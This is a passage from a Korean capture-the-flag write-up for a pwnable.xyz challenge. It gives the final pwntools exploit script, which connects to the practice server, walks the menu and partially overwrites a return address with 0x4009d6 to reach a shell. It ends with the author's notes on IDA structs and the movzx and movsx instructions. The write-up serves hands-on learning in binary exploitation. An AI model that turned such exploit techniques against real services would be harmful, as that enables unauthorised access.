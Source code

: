 ### 3. 풀이

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level='debug'
    p=remote("svc.pwnable.xyz",30009)
    
    p.sendafter("Name: ",'a'*16)
    p.sendlineafter("> ","1")
    p.sendlineafter("= ",'3')
    p.sendlineafter("> ","2")
    p.sendlineafter("> ","3")
    p.send('a'*24+p64(0x4009d6)[:3])
    p.sendlineafter("> ","1")
    p.interactive()

<br><br>

### 4. 몰랐던 개념

- 아이다 구조체 직접 선언 방법. 바로 전문제에서 확인하였는데 바로 적용해보았다. 매우 좋은 기능인 것 같다.
- movzx a,b  
    제로 확장의 의미로, 크기가 다른 데이터의 이동이 가능하다. b가 2바이트고 a가 4바이트라면 상위 2바이트는 0으로 채워진다.

- movsx a,b  
    부호 확장의 의미로, a의 남는 자리를 b의 부호비트로 채운다.